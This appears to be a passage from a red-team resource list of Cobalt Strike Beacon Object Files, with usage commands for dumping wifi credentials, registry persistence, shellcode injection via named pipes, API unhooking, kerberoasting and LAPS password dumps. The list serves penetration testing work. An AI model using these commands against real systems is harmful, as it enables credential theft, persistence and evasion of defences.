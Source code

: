 - [**BOF Collection**](https://github.com/rvrsh3ll/BOF_Collection)<br />
A set of BOFs useful for enumeration and exploitation. Examples include:<br />
```
inline-execute GetDomainInfo.o --> Get domain info from DC

inline-execute GetClipboard.o --> Prints any text on the user's clipboard

enumwifi --> Enumerate wifi connections
dumpwifi Wifi_Profile_Name --> Dump wifi cleartext credentials

bofportscan 192.168.1.10 3389 --> Port scanner

inline-execute RegistryPersistence.o Install --> Install registry persistence
inline-execute RegistryPersistence.o Remove --> Remove registry persistence
```

- [**whereami**](https://github.com/boku7/whereami)<br />
A "Where Am I" BOF which is a way to run the whoami.exe binary but in an opsec safe way by pulling the info from the current beacon process memory.<br />
Also pulls current environment variables.<br />
```whereami```

- [**RiccardoAncarani BOFs**](https://github.com/RiccardoAncarani/BOFs)<br />
A useful BOF collection to perform various tasks in a safer opsec way.
```
send_shellcode_via_pipe <pipe> <file> --> Send shellcode or any byte via a named pipe
cat <file> --> Read file, supports remote shares
wts_enum_remote_processes <host> --> Enumerate remote processes using WTS APIs
unhook <module>, unhook ntdll.dll --> Use direct syscalls to unhook APIs of a specific DLL (works only on 64-bit beacons)
```

- [**Outflank C2 Tool Collection**](https://github.com/outflanknl/C2-Tool-Collection)<br />
Great list of useful tools converted to BOFs for better opsec.<br />
Tools like add machine account, kerberoast, LAPS password dump, SMB info, LDAP AD spray, and more!
```
GetMachineAccountQuota --> Get domain machine account quota
AddMachineAccount [*Computername] [Optional Password] --> Create new machine account - requires MachineAccountQuota to create new account
Domaininfo --> Enumerate AD domain
Kerberoast list --> List SPN enabled accounts
Kerberoast roast SamAccountName --> Kerberoast specific username
Lapsdump <computername> --> Dump LAPS passwowrds on remote systems within AD (requires elevated privileges on target)
Psc --> Show detailed information from processes with established TCP and RDP connections
Psw --> 	Show window titles from processes with active windows
Psx --> Show detailed information from all processes running on the system and provides a summary of installed security products and tools.
Smbinfo <compuername> --> Get SMB info of remote system instead of using CS portscan SMB
Winver --> Shows the version of Windows that is running on the local system
```

- [**tgtdelegation**](https://github.com/sliverarmory/tgtdelegation)<br />
Kerberos ticket delegation - Obtain usable TGTs for the current user, does not require Admin privileges!<br />
Request TGT of active user in the current domain obtained from USERDNSDOMAIN environment variable, outputs TGT blobs to .kirbi and .ccache files<br />
```
tgtdelegation currentdomain default
[+] received output:
[+] tgtdelegation succeeded!

